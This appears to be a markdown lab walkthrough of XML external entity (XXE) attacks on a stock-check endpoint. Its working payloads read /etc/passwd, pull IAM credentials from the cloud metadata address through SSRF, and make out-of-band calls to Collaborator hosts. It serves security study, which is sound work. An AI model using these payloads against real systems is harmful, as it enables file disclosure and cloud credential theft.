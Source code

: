 ## XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
</productId><storeId>1</storeId></stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
+ Result :
![xml](./img/xml.png)

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Result

![sml2](./img/xml2.png)

## Blind XXE with out-of-band interaction
+ Create buup collaborator 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://v0wkda9pdo2k1tbpgvnyzak8azgq4gs5.oastify.com"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

+ Result :
![xml3](./img/xml3.png)
![xml3.1](./img/xml3.1.png)

## Blind XXE with out-of-band interaction via XML parameter entities
``xml 
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE abc [<!ENTITY % xxe SYSTEM "http://ujhjw9sownljksuozu6xi937tyzpngb5.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

+ Result

 ![sml4](./img/xml4.png)
 ![sml4](./img/xml4.1.png)
 
